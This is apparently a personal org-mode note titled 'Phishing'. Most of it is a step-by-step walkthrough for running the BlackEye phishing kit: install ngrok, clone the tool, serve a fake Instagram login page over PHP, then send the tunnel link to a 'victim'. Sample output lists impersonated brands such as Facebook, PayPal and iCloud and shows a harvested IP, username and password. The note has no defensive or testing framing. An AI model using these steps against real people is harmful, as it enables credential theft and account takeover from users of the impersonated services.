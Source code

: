 #+title:Phishing
#+roam_tags: Social_Engineering

TODO:
1. Fake Website

* Gophish

WEB: https://getgophish.com/
GIT: https://github.com/gophish/gophish

* Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

This preparation are needed, because =blackeye.sh= are not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works.

Here is the command you need to install and setup ngrok.

#+begin_src shell
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

Now clone blackeye from An0nUD4Y repos.

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
#+end_src

To actually run blackeye, you have to serve the php first and then the ngrok server, and you will see a screen like this.

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

And then you can connect to php by using this command:

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src

Lastly run this command to actually run blackeye. Above preparation are just in case that you're not seeing ngrok Link.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # This link are served above
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src
